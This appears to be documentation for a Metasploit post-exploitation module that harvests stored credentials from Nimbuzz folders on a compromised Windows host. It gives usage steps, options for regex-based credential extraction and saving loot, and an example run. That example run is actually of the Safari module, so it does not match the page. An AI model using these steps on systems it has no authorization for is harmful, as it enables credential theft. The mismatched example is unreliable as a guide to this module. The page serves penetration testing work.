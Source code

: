 ## Module Description

This post-exploitation module gathers artifacts found on Nimbuzz related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/nimbuzz
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
```
msf6 post(windows/gather/credentials/safari) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Safari's parent folder found
[*] Safari's parent folder found
[*] Safari's Webpageicons.db file found
[*] Downloading C:\Users\IEUser\AppData\Local\Apple Computer\Safari\WebpageIcons.db
[*] Safari Webpageicons.db downloaded
[+] File saved to:  /root/.msf4/loot/20210513132035_default_192.168.56.106_safariWebpageIco_644838.db

[+] File with credentials saved:  /root/.msf4/loot/20210513132035_default_192.168.56.106_EXTRACTIONSWebpa_544464.db
[*] PackRat credential sweep Completed
[*] Post module execution completed

```